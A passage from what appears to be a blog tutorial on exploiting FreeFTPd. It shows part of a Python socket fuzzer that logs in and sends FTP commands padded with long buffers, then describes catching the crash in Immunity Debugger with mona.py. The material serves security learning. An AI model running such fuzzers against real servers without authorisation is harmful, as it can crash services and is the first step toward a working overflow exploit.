 ```python
    s.connect((host, port))
    print s.recv(1024)
    s.send(username)
    print s.recv(1024)
    s.send(password)
    s.recv(1024)

    for command in commands:
        s.send(command + buffer)
        print "[+] Sent " + command + "payload with length: %d" % len(buffer)

    s.close()
except:
    print "[-] Something went wrong :("
``` 

This is not the best fuzzer as it doesn't do all of the character and length insertions / manipulations like Spike or BooFuzz do; however, it seemed to get the job done. You may also see where I went wrong with my Spike template, and why that didn't work. First thing's first, I need to start the FreeFTPd application and attach it to a debugger. I will be using [Immunity Debugger](https://www.immunityinc.com/products/debugger/) along with the fabulous [mona.py](https://github.com/corelan/mona) script from Corelan Team. With everything setup and running, this fuzzer should work!

![screenshot](/assets/images/freeftpd/fuzz_crash.PNG)

Well well well! Look at that! We got a partial over-write somewhere. Let's check the registers and see where/what caused the crash. 

## Making The Crash Reliable
